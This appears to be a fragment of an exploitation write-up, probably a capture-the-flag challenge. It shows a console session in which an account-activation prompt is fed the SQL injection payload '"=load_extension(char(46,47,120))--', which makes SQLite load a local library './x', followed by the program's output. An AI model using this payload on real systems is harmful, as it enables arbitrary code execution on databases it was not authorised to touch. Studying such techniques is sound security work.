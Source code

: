 ```console
Select option: 5
Enter username to activate account: "=load_extension(char(46,47,120))--
Activating account for user '"=load_extension(char(46,47,120))--        '...
e3ed9ed[...]
```
